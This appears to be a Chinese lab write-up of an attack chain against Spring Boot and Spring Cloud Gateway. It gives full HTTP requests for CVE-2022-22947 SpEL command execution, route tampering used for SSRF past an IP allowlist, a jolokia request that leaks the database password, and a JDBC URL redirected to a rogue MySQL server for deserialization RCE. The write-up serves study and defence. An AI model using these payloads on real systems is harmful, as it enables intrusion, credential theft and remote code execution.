


## 概述

外网有两个服务，第一个是Springboot写的web服务，`/actuator`路由加了Springboot Security限制了内网IP白名单，攻击者没办法直接访问，只能访问正常的业务

第二个是SpringCloud Gateway，也有`/actuator`路由，而且是未授权访问。可以通过动态添加转发路由，从而对第一个web服务进行SSRF

通过SSRF第一个web服务的`/actuator`，一可以打MySQL JDBC 反序列化（不单单是这个，还有其他手法RCE）直接RCE，二可以打`/actuator/jolokia`，造成数据库密码泄露
RCE之后可以直接拿数据库密码连接MySQL


## API unauth

使用APIKit扫描Gateway服务的API接口，得到`/actuator`未授权访问。使用CVE-2022-22947，进行RCE：

```http
POST /actuator/gateway/routes/test1 HTTP/1.1
Host: localhost:8000
Content-Length: 427
Content-Type: application/json
Connection: close

{
    "id": "test1",
    "filters": [
        {
            "name": "AddResponseHeader",
            "args": {
                "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}",
                "name": "cmd"
            }
        }
    ],
    "uri": "http://aaa.com",
    "order": 2
}

```

得到返回`HTTP/1.1 201 Created`之后，POST访问`/actuator/gateway/refresh`再GET访问`/actuator/gateway/routes/test1`可以得到命令执行的回显。


## tamper routes &&  SSRF

使用SPEL表达式注入，读取`/etc/hosts`文件发现有这么一行：

```
oasystem    172.192.1.10
```

于是我们知道了第一个服务的hosts以及内网IP地址，可以动态修改Gateway的路由来进行SSRF：

```http
POST /actuator/gateway/routes/oasystem HTTP/1.1
Host: localhost:8000
Connection: close
Content-Type: application/json
Content-Length: 404

{
    "id": "oasystem",
    "uri": "http://oasystem:8080",
    "filters": [
        {
            "name": "PreserveHostHeader",
            "args": {
                "_genkey_0": ""
            }
        }
    ],
    "predicates": [
        {
            "name": "Path",
            "args": {
                "_genkey_0": "/oasystem/**"
            }
        }
    ],
    "order": 0
}
```

再POST `/actuator/gateway/refresh`，进行路由配置的刷新，之后就可以在`/actuator/gateway/routes/`看到我们添加的路由了：



访问Gateway服务的`/oasystem/actuator`路由即可绕过SpringSecurity的IP限制

## MySQL passwd leak

获取env，寻找`*`加密的密码



获取*加密的密码

```http
POST /oasystem/actuator/jolokia HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Connection: close
Content-Length: 205

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "spring.datasource.password"
    ]
}
```


## MySQL JDBC deserialization to RCE

修改配置，指向恶意MySQL服务器

```http
POST /oasystem/actuator/env HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Content-Length: 215

{"name":"spring.datasource.url","value":"jdbc:mysql://IP:PORT/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}
```

刷新配置

```http
POST /oasystem/actuator/refresh HTTP/1.1
Host: localhost:8000
Content-Length: 0


```

用户操作，触发SQL查询，RCE。

更多攻击手法请见：https://github.com/LandGrey/SpringBootVulExploit

